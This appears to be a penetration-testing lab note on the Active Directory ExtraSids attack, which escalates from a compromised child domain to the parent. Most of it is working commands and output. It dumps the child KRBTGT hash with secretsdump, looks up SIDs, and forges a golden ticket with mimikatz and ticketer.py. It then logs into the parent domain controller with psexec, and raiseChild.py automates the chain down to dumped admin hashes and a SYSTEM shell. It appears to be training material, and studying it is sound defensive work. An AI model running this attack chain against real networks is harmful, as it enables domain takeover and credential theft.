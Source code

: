 #### ExtraSids Attack

This assumes that a `Child` domain has been compromised. Now we want to compromise the `Parent` domain.

As with the Windows, we need the following information:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain
- The SID of the Enterprise Admins group of the root domain

The KRBTGT hash for the child domain:

```bash
secretsdump.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.240' -just-dc-user LOGISTICS/krbtgt

9d765b482771505cbe97411065964d5f
```

The SID for the child domain

```bash
lookupsid.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.240' | grep "Domain SID"
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
```

The name of a target user in the child domain (does not need to exist!) - `hacker`

The FQDN of the child domain - We know this `logistics.inlanefreight.local`

The SID of the Enterprise Admins group of the root domain

```bash
lookupsid.py 'logistics.inlanefreight.local/htb-student_adm:HTB_@cademy_stdnt_admin!@172.16.5.5' | grep -B12 "Enterprise Admins"
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```
#### Gathered information

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`
#### Construct the Golden Ticket


kerberos::golden /user:hacker /domain:<Our_current_child_domain> /sid:<sid_of_child_domain> /krbtgt:<krbtgt_NTLM_hash> /sids:<sid_of_enterprise_admins_group> /ptt


```
ticketer.py -nthash <krbtgt_NTLM_hash> -domain <Our_current_child_domain> -domain-sid <sid_of_child_domain> -extra-sid <sid_of_enterprise_admins_group> hacker
```

Example:

```bash
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

Setting the KRB5CCNAME Environment Variable:

```bash
export KRB5CCNAME=hacker.ccache
```

Verify:

```bash
klist
Ticket cache: FILE:hacker.ccache
Default principal: hacker@LOGISTICS.INLANEFREIGHT.LOCAL

Valid starting       Expires              Service principal
02/06/2025 14:42:19  02/04/2035 14:42:19  krbtgt/LOGISTICS.INLANEFREIGHT.LOCAL@LOGISTICS.INLANEFREIGHT.LOCAL
```

Log into the `Parent` DC:

```bash
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

### raiseChild.py

All of the above can be done with this:

```bash
raiseChild.py -target-exec <parent_dc_ip> '<child_domain>/<domain_admin>:<password>'
```

Example:

```bash
raiseChild.py -target-exec 172.16.5.5 'LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm:HTB_@cademy_stdnt_admin!'
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file vBDTpaXs.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service fYRf on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service fYRf.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```